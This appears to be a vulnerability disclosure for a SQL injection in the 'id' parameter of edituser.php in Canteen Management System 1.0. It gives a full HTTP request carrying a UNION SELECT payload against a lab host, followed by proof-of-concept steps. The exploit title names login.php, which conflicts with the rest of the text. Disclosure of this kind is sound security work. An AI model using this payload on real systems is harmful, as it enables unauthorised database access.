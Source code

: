 # Canteen Management System - edituser.php 'id' SQL inject

#### Exploit Title: Canteen Management System - login.php 'id' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

#### Software Link:https://www.sourcecodester.com/php/15688/canteen-management-system-project-source-code-php.html

#### Version: Canteen Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Canteen Management System does not filter the content correctly at the "edituser.php /id" parameter, resulting in the generation of SQL injection.

#### Payload used:

```
GET /edituser.php?id=-7956'%20UNION%20ALL%20SELECT%20NULL,md5(1),NULL,NULL--+ HTTP/1.1
Host: 192.168.67.10:8091
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.10:8091
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.10:8091/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

#### Proof of Concept

1、After logging in, use the Edit User function

![image](https://github.com/joinia/webray.com.cn/blob/main/Canteen-Management-System/images/edituserhtml.png)

2、Looking at the source code, it is found that the id field is directly brought into the SQL statement query without filtering

![image](https://github.com/joinia/webray.com.cn/blob/main/Canteen-Management-System/images/editusersouce.png)



3、

![image](https://github.com/joinia/webray.com.cn/blob/main/Canteen-Management-System/images/edituserburp.png)

4、The results can be directly echoed on the page by constructing correct SQL statements

![image](https://github.com/joinia/webray.com.cn/blob/main/Canteen-Management-System/images/edituserresult.png)

5、Through testing with the tool, it is found that there are other injection methods such as blind SQL time injection.

![image](https://github.com/joinia/webray.com.cn/blob/main/Canteen-Management-System/images/editusersqlmap.png)


